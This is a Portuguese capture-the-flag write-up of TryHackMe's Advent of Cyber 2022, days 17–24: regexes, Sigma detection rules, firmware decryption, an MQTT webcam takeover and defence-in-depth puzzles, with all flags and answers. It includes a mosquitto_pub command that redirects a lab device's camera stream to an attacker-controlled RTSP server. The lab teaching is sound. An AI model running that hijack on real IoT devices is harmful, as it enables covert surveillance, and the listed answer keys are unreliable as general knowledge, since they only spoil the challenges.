A primeira expressão que é pedida é para usuário. O usuário deve ser formado por caracteres alfanuméricos com tamanho entre 6 e 12. O regex que usaremos será o seguinte \^\[a-zA-Z0-9]{6,12}\$. \^ é utilizado para definir início de palavra, enquanto \$ define o final, assim só casará com palavra formadas exclusivamente pela expressão. [] serve para definir um conjunto de caracteres que serão considerados, como queremos caracteres alfanuméricos pode ser letras minúsculas, maiúsculas e dígitos. E o {} define a quantidade mínima e máxima do item anterior.

Com essa expressão encontramos **8** cadeias no arquivo, sendo que a única formada por palavra legível com número é **User35**, sendo estas as resposta para as questões 1 e 2 respectivamente.


O próximo regex é para email, é informado que a primeira parte do email pode ser um conjunto aleatório de caracteres seguido pelo arroba, então um domínio e todos os *top-level domains (tld)* serão ".com". Seguindo essas regras a expressão será \^.+@.+\\.com\$. O caractere ponto '.' significa, em regex, qualquer coisa, enquanto o mais '+' exige um ou mais do anterior. Assim o '.+' será uma cadeia de um ou mais caracteres aleatórios. E para que possamos utilizar o ponto em ".com" devemos escapar com o contra barra '\'.

Analisando o arquivo com essa expressão é retornado **11** endereços de email, sendo de **7** domínios diferentes. As questões 5 e 6 pedem pelo domínio de dois usuários que são **amg.com** e **fedfull.com**. E a sétima questão pede pelo usuário do hotmail, que é o **hussain.volt**.


A última expressão será para definir URLs. Elas devem começar com http ou https, podendo conter ou não o "www.", um nome do domínio e devem terminar com um tld. Resultando em ^https?://(www\.)?.+\..+$. O ponto de interrogação '?' é utilizado para indicar que o anterior é opcional e os () fazem com que o que está dentro seja analisado em conjunto. Com isso, tanto o 's' quanto o "www." não são obrigatórios, o resto segue as mesmas lógicas de antes.

Então obtemos **16** URLs no total, com apenas **7** sendo "https".


## [Day 18] Lumberjack Lenny Learns New Rules

O dia 16 aborda as regras sigma para detecção de intrusão. O sigma é uma linguagem para descrever assinaturas para analisar os logs, dessa forma podendo encontrar potenciais ameaças.

Para a resolução das questões, precisaremos criar regras sigma para detectar os seguintes indicadores de comprometimento mostrados abaixo. O primeiro é explicado como fazer na parte teórica da Task. 


A primeira regra deverá detectar a criação de contas locais no Windows. Então devemos buscar nos logs de segurança do Windows pelo EventID 4720. Dessa forma a regra fica como mostrada abaixo.

```yml
title: account creation
id: 1
status: experimental
description:
author: lukewicz
date:
modified:

logsource:
  product: windows
  service: security
  category:
  
detection:
  selection:
    EventID:
     - 4720

  condition: selection 
```

Com a regra pronta, basta clicar em "Run" para testá-la. Então é retornado a flag **THM{n0t_just_your_u$ser}**. A segunda questão pede pela conta que foi criada, ao ver o log encontrado com essa regra encontramos o **BanditYetiMini**.


Seguindo, a próxima regra é para descobrir se o adversário está buscando pelos softwares instalados no computador a partir dos Registros do Windows. Agora buscaremos no sysmon com o EventID 1, o aplicativo reg.exe e por comandos que contenham reg, query, /v e svcVersion. 


```yml
title: software discovery
id: 2
status: experimental
description:
author: lukewicz
date:
modified:

logsource:
  product: windows
  service: sysmon
  category: process_creation
  
detection:
  selection:
    EventID:
     - 1
    Image|endswith:
      - reg.exe
    CommandLine|contains|all: 
      - reg
      - query
      - /v
      - svcVersion
      
  condition: selection

```

Com essa regra obtemos a flag **THM{wh@t_1s_Runn1ng_H3r3}**. A questão 4 pede pelo usuário que foi encontrado no log do desafio 2, sendo este o **SIGMA_AOC2022\Bandit Yeti**.


A última regra é para achar a criação de tarefas agendadas no Windows. Como na anterior, buscaremos por logs do sysmon, mas agora que utilizem o Task Scheduler. Então a imagem deve ser schtasks.exe e o comando deve ter schtasks e /create.

```yml
title: scheduled task
id: 3
status: experimental
description:
author: lukewicz
date:
modified:

logsource:
  product: windows
  service: sysmon
  category: process_creation
  
detection:
  selection:
    EventID:
     - 1
    Image|endswith:
      - schtasks.exe
    CommandLine|contains|all: 
      - schtasks
      - /create
      
  condition: selection
```

Com isso obtemos a flag **THM{sch3dule_0npo1nt_101}**. E por fim a última questão pede pelo hash associado ao log desse desafio, **2F6CE97FAF2D5EEA919E4393BDD416A7**.


## [Day 19] Wiggles go brrr

Na Task de hoje é explicado o básico de Hardware Hacking, buscando por informações nos sinais elétricos transmitidos pelos dispositivos. É explicado sobre os padrões de comunicação USART, SPI e I2C, além de ter uma parte prática para decodificar os sinais utilizando um software de simulação chamado Saleae. 

A primeira questão pede pelo dispositivo que é utilizado para examinar os sinais. Sendo este um **logic analyser**.


As questões 3 e 4 são um comparativo do USART com o SPI. Como é explicado acima na Task o USART é mais lento que o SPI, porém o SPI utiliza mais cabos para essa comunicação. Então as respostas são **nay** e **yea**.


As próximas três questões são comparando o I2C com os outros dois padrões anteriores. Segundo o texto, o I2C é mais rápido que o USART mas mais lento que o SPI, além de utilizar o mesmo número de fios que o USART então menos que o SPI. COnsiderando isso as respostas ficam **nay**, **nay** e **yea**.

E como é citado no texto o I2C consegue atingir um máximo de **1008** conexões utilizando um único par de cabos, respondendo a sétima questão.


As últimas duas questões são práticas relacionadas ao arquivo de captura "santa" que pode ser analisado utilizando o software Logic 2.4.2 que estão na máquina anexada nessa Task.

A questão 8 pede pela taxa de bauds que está sendo transmitida entre o microprocessador e a ESP32. Ao entrar na aba "Analyzers" e escolher a opção "Async Serial" é mostrado uma nova tela em que é informado a "Bit Rate" como sendo **9600**.  


Agora para encontrarmos a flag que foi transmitida, escolhemos nessa mesma tela o canal ""00. Channel 0" como canal de input, o resto das configurações permanecem iguais. Assim ficamos com uma tela igual a esta.


Com as configurações do analisador feitas podemos salvar. Então na aba "Analyzers" mudamos a visualização dos dados para "Terminal" clicando no ícone de terminal. Com isso podemos ler os dados transmitidos e no final está a flag **THM{Hacking.Hardware.Is.Fun}**.


## [Day 20] Binwalkin’ around the Christmas tree

O vigésimo dia é sobre Firmware. Firmware é o software de mais baixo nível que faz a comunicação entre o hardware e os outros softwares do dispositivo. A Task de hoje é um passo a passo de como descriptografar um firmware para obter o código-fonte.

Ao logar na máquina temos dois firmwares, um deles mais recente e criptografado com o gpg e o outro mais antigo não criptografado. Na pasta do mais antigo, "~/bin-unsigned", podemos extrair o conteúdo do "firmwarev1.0-unsigned" com o comando "extract-firmware.sh firmwarev1.0-unsigned".


Com o firmware extraído, podemos buscar por senhas que estavam armazenadas nele. Com o comando "grep -ir paraphrase" conseguimos encontrar uma senha, que está no diretório gpg que contém também uma chave pública e privada. A senha encontrada é **Santa@2022** e é a resposta para a segunda pergunta.


Podemos então importar para o gpg as chaves que obtivemos para poder desencriptar o outro firmware. 


Com esse firmware já desencriptado podemos extrair o conteúdo dele, assim como fizemos com o anterior. 


Com o grep novamente podemos buscar pela flag para responder a primeira questão e pelo versão da *build* para a última questão. Assim obtemos a flag **THM{WE_GOT_THE_FIRMWARE_CODE}** e a versão **2.6.31**. O terminal acabou escondendo os '_'. 


## [Day 21] Have yourself a merry little webcam

O tópico de hoje é MQTT e IoT. MQTT é protocolo utilizado para comunicação com dispositivos IoT, ele se baseia em um modelo de *publish/subscribe* para enviar e receber mensagens. 

A primeira questão pede em qual porta o "Mosquitto" está rodando. Pesquisando no Google é possível ver que o MQTT por padrão utiliza a porta **1883**.


Com essa informação podemos utilizar o nmap para examinar essa porta, para obter as informações para as duas questões seguintes. O nmap encontra a versão do mosquitto como sendo **1.6.9** e o script consegue enumerar o "device/init", então a resposta é **y**, como mostrado na imagem abaixo.


Agora para conseguir a flag é um pouco mais complicado. Primeiro usaremos um docker para iniciar um servidor de RTSP utilizando o comando "docker run --rm -it --network=host aler9/rtsp-simple-server".


Então publicaremos o nosso payload no dispositivo alvo utilizando o mosquitto_pub com o id, a URL do RTSP deve conter o ip da máquina atacante com um *path* qualquer. Assim o comando fica por exemplo "mosquitto_pub -h 10.10.157.94 -t device/PL52DK4FAPBFGX3J3QHC/cmd -m """{"cmd":"10","url":"rtsp://10.10.100.41:8554/lukewicz"}""" ".

E para acessar as imagens podemos conectar utilizando o VLC passando como argumento o servidor que definimos anteriormente.


Então ao visualizar o vídeo encontramos a flag **THM{UR_CAMERA_IS_MINE}**.


## [Day 22] Threats are failing all around me

No dia 22, é explicado sobre redução de superfície de ataque. Superfície de ataque são as áreas da vítima que podem ser utilizadas por um adversário para a realização de um ataque. Assim com a redução dela visa reduzir os vetores de ataque que possam comprometer o sistema.

Para conseguir a flag de hoje é só inserir as respostas certas nas perguntas em uma página anexada a Task, como pode ser visto na imagem abaixo. 


Com a página anterior respondida, vamos clicar em "Next" para ir para outra página e conseguir a flag **THM{4TT4CK SURF4C3 R3DUC3D}**.


## [Day 23] Mission ELFPossible: Abominable for a Day

Finalmente véspera da véspera de Natal, dia 23, hoje é explicado sobre defesa em profundidade. Esse é um conceito que visa utilizar várias formas de defesa para que caso uma falhe ainda existam outras para defender, uma vez que nenhuma defesa é insuperável. Para as flag tem um joguinho onde devemos invadir o escritório do Papai Noel para conseguir a lista de bons e maus.

No primeiro caso, com qualquer uma das desculpas o guarda libera o portão, então clicando nele entramos no complexo. Ao entrar no escritório do assistente executivo e abrir a primeira gaveta encontramos um senha guardada, **S3cr3tV@ultPW**.


Com essa senha podemos ir no escritório do Papai Noel e desbloquear o cofre dele, com isso conseguimos a primeira flag, THM{EZ_fl@6!}, encerrando o primeiro caso.


No caso seguinte o guarda já está mais bem treinado, deste modo apenas a desculpa de que vai entregar algo para o assistente executivo faz o guarda permitir o acesso. Ao entrar podemos encontrar no Post-it do assistente a coisa favorita do Papai Noel, **MilkAndCookies**.


Com isso podemos desbloquear o computador do Papai Noel que está no escritório dele e obter a partir de um arquivo de texto a senha do cofre, **3XtrR@_S3cr3tV@ultPW**.


Abrindo o cofre novamente encontramos a segunda flag, **THM{m0@r_5t3pS_n0w!}**, e terminamos esse caso.


O terceiro caso é o mais complicado de todos, já que foram adotadas certas medidas de defesa em profundidade pela equipe do Papai Noel. Para passar pelo guarda ainda é que nem no caso anterior. Novamente no Post-it do assistente encontramos que a comida favorita dele é **3XtrR@_S3cr3tV@ultPW**. E na primeira gaveta desse escritório podemos pegar o crachá do Papai Noel, que nos permitirá acessar mais áreas.


A senha do notebook do assistente é a comida favorita dele. Ao logar no notebook encontramos um arquivo de texto e uma lixeira. No arquivo de texto encontramos a segunda metade da senha do cofre, **Pr0v3dV@ultPW**.


E na lixeira encontramos a senha antiga do notebook do Papai Noel, **H0tCh0coL@t3_01**. Mas como ele é preguiçoso a nova senha é apenas incrementar o último dígito da antiga, **H0tCh0coL@t3_02**.


Tendo acessado o notebook dele com a senha nova, encontramos a primeira metade da senha do cofre, **N3w4nd1m**.


Dessa forma para criar a senha completa do cofre é só concatenar as duas, assim ficando **N3w4nd1mPr0v3dV@ultPW**. No cofre encontramos a terceira flag e o pin de acesso à Oficina do Papai Noel, respectivamente **THM{B@d_Y3t1_1s_n@u6hty}** e **2845**.


Por fim podemos acessar a oficina e conseguir a flag final, **THM{D3f3n5e_1n_D3pth_1s_k00L!!}**.


## [Day 24] Ho, ho, ho, the survey's short / The Year of the Bandit Yeti

O último dia não tem nenhum conteúdo novo e é dividido em duas Tasks. A primeira é para fornecer um feedback sobre como foi o evento e o que você achou. Enquanto a segunda é para contar o final da história.

Na Task 29, para conseguir a flag é só fazer o formulário de feedback que será dado a flag **THM{AoC2022!thank_you!}**.


Enquanto na Task 30, a única questão que tem é para responder **Yea**.

## Conclusão

Após responder todas as questões e ter 100% da sala concluída ganhamos o certificado de conclusão e uma badge do evento.


Assim terminamos o Advent of Cyber do TryHackMe. Os conteúdos apresentados durante o evento foram de certa forma introdutórios voltados para pessoas que estão começando na área, e podem ser mais aprofundados a partir de outras salas do TryHackMe ou em outros materiais. 

Espero que esse meu Write-Up possa ter ajudado quem esteja em dúvida sobre algum dos desafios. Agradeço a todos que leram. Qualquer dúvida ou sugestão de melhoria é só entrar em contato comigo. 

---


Lucas Tomio Darim
